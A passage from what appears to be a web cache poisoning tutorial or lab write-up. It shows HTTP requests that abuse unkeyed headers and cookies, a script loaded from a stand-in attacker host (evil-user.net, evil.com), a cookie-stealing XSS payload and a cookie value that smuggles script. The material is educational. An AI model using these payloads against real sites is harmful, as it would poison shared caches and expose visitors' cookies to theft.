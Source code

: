 ```
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

Finally we just need to host our evil payload on our exploit server.

```
document.write('<script>alert(document.cookie)</script>');
```

## Using web cache poisoning to exploit cookie-handling vulnerabilities

Cookies are often used to dynamically generate content in a response. A common example might be a cookie that indicates the user's preferred language, which is then used to load the corresponding version of the page: 

```
GET /blog/post.php?mobile=1 HTTP/1.1
Host: innocent-website.com
User-Agent: Mozilla/5.0 Firefox/57.0
Cookie: language=pl;
Connection: close
```
So we can use a cookie found with Param Miner to add our payload.

```
Cookie: fehost=BENJUGAT"}%3balert(1)//
```

When cookie-based cache poisoning vulnerabilities exist, they tend to be identified and resolved quickly because legitimate users have accidentally poisoned the cache. 

## Using multiple headers to exploit web cache poisoning vulnerabilities

Some websites are vulnerable to simple web cache poisoning exploits, as demonstrated above. However, others require more sophisticated attacks and only become vulnerable when an attacker is able to craft a request that manipulates multiple unkeyed inputs. 

Try both http headers `X-Forwarded-Scheme` and `X-Forwarded-Host`:

```
GET /resources/js/tracking.js HTTP/2
Host: innocent-website.com
Cookie: session=2ALQxxZQdEnREbpt9X2YGmPlnFj8NgZu
X-Forwarded-Scheme: http
X-Forwarded-Host: evil.com
Content-Length: 0

HTTP/2 302 Found
Location: https://evil.com/resources/js/tracking.js
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0
```
